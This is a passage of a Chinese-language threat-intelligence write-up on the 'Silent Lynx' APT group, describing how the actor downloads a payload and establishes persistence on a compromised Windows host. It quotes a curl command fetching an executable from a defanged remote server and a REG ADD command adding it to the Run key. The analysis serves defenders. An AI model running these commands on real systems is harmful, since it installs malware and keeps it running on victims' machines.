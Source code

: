 
我们还发现了一个有趣的情况，威胁行为者（TA）从一个网络服务器下载恶意有效载荷，并在被攻陷的系统上建立持久化机制。通过命令 “cmd /c curl -o c:\users\public\gservice.exe hxxps://[pweobmxdlboi.com/147.exe](https://pweobmxdlboi.com/147.exe)” ，威胁行为者从远程服务器下载了一个恶意可执行文件，并将其保存为 “c:\users\public” 目录下的 “gservice.exe”。

![image-20250122105940-m2wj05s](揭秘-“沉默山猫”（Silent-Lynx）高级持续威胁组织：针对吉尔吉斯斯坦及周边国家的恶意攻击/image-20250122105940-m2wj05s.png)

为确保持久化，威胁行为者执行了一个注册表修改命令：“REG ADD HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v WinUpTask /t REG_SZ /d c:\users\public\gservice.exe/f”，该命令将可执行文件添加到 Windows 的 “运行” 键中，这样每当用户登录时，它就会自动启动。随后，攻击者使用 “REG query” 命令来验证修改，并通过消息 “Операция успешно завершена”（“操作已成功完成”）确认持久化机制已成功建立。
